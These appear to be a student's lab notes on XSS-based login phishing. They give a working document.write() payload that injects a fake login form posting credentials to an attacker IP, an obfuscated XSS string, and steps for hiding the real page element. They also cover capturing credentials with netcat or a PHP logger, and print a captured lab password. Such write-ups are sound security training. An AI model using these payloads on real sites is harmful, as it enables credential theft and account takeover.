 ```yaml
---
title: 'Login Phishing:'
updated: 2023-08-20T17:46:18.0000000+01:00
created: 2023-08-20T15:51:03.0000000+01:00
---
```


Introduction:

Another common type of XSS attack is using fake login forms - this leads to targets into sending passwords and usernames to the attack - then an attacker can log in as the user and take control over their account and other sensitive info.

Furthermore, if we are contracted to do so, we could perform this for a company and try to phish employees.

XSS Discovery:

We start by trying to find an XSS vulnerability - when we visit the **phishing** directory - we are greeted with an online image viewer:

![image1](../../../../_resources/image1-195.png)

These image viewers are common in online forms and web applications. As we have control over the URL, we can start trying to inject basic XSS payloads - but if we try to do this, we will get a **dead image URL** error message:
![image2](../../../../_resources/image2-161.png)

So we should run our automated scanners and find a working XSS payload.

Login Form Injection:

Once we find a working XSS payload, the next thing we need to do is fabricate a bogus HTML form, so that when the user logs-in we can get their credentials. We can either get template HTML code or we can write our own login form:
![image3](../../../../_resources/image3-126.png)

*Note for sophisticated logins, you may need to do some styling to inject a believable login form.* We can get our IP using **ip a** or by looking at our **tun0**.

Next, we need to prepare XSS payload and using the document.write() JS function we can write the HTML to the page:

**document.write('\<h3\>Please login to continue\</h3\>\<form action=http://10.10.16.31\>\<input type="username" name="username" placeholder="Username"\>\<input type="password" name="password" placeholder="Password"\>\<input type="submit" name="submit" value="Login"\>\</form\>');**

**document.getElementById('urlform').remove();\<!--**

In the event that we are exploiting a **Reflected XSS vulnerability** we can send our XSS payload in the URL parameter:
![image4](../../../../_resources/image4-101.png)

Activity:

First we use XSStrike to find a working XSS payload ('\>\<D3v%0aonpOiNteRenTEr%0d=%0dconfirm()\>v3dm0s):
![image5](../../../../_resources/image5-77.png)

Next we need to insert our payload to create a fake login and hide the image viewer:

**document.write('\<h3\>Please login to continue\</h3\>\<form action=http://10.10.16.31\>\<input type="username" name="username" placeholder="Username"\>\<input type="password" name="password" placeholder="Password"\>\<input type="submit" name="submit" value="Login"\>\</form\>');**

This payload works, but it is broken looking:
![image6](../../../../_resources/image6-54.png)

We can send the request to the PHP file and get the result we want:
![image7](../../../../_resources/image7-47.png)
Admin:p1zd0nt57341myp455

We login to the admin panel:
![image8](../../../../_resources/image8-40.png)

Cleaning Up:

To encourage the user to use our login form, we should remove the other elements, to do this we can use the JavaScript function **document.getElementById().Remove()** function.

We can use **inspect element** to find the ID of the element we want to delete, in this case it is the URL form.

*Note that we can test this locally by deleting things on the client side first - to figure out what we need to delete or not.*

By looking at the code we can see that the id=**urlform** is the element we want to delete, we can delete this by using:
![image9](../../../../_resources/image9-33.png)

We can then add this to our URL payload:
**Document.write(…\</form\>);document.getElementById('urlform').remove();**

We can then look at the website:
![image10](../../../../_resources/image10-27.png)

We see that there is some text from the original HTML code left after our injection, we can fix this by **commenting** it out:
![image11](../../../../_resources/image11-21.png)

This will give us a believable login form:
![image12](../../../../_resources/image12-16.png)

Credential Stealing:

Finally, after we have produced our login form, we can configure our computer to accept requests from users so that we can siphon their credentials. The steps we have to take are:

1.  Start up a netcat listener
    1.  Test this by trying to log in with some credentials.
    2.  ![image13](../../../../_resources/image13-15.png)

As you can see, we have captured their credentials in the URL. However, the netcat listener will not handle the HTTP request correctly and the victim would get an error saying "**unable to connect**" this could alert suspicion.

To avoid this, we can write a PHP script that will log user credentials and re-direct them to the original page:
![image14](../../../../_resources/image14-12.png)

We should then place this php file inside the **/tmp/tmpserver/** as **index.php**. Then we can start a PHP server using the following commands:
![image15](../../../../_resources/image15-9.png)

This will then log any requests into our **creds.txt** file:
![image16](../../../../_resources/image16-9.png)
